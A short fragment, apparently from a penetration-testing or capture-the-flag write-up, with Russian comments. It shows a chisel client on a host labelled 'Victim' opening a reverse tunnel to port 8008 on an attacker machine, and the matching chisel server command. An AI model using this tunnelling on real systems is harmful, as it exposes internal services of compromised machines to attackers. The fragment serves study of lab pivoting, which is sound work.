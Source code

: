 C:\Users\Victim\Desktop>chisel client 10.10.14.38:8008 R:8888:127.0.0.1:8888   
#проброс 8888 на порт сервера 8008  
  
attaker@attacker:/home/attacker# ./chisel server --p 8008 --reverse -v   
#сервер слушает на 8008 порту проброшенный ранее 8888